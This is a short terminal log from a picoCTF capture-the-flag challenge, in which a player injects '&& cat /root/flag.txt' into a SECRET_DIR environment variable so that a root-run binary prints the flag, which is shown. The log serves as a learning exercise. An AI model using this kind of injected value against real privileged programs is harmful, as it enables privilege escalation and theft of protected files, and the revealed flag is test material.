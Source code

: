

ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export $SECRET_DIR=/root
-bash: export: `=/root': not a valid identifier
ctf-player@pico-chall$ export $SECRET_DIR='/root'
-bash: export: `=/root': not a valid identifier
ctf-player@pico-chall$ export $SECRET_DIR="/root"
-bash: export: `=/root': not a valid identifier
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@pico-chall$ vim bin 
-bash: vim: command not found
ctf-player@pico-chall$ ./bin && cat /root/flag.txt
Listing the content of /root as root: 
flag.txt
cat: /root/flag.txt: Permission denied
ctf-player@pico-chall$ export SECRET_DIR=/root&&cat /root/flag.txt
cat: /root/flag.txt: Permission denied
ctf-player@pico-chall$ export SECRET_DIR="/root && cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root && cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}ctf-player@pico-chall$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.



export $SECRET_DIR=/root
export SECRET_DIR=/root&&cat /root/flag.txt
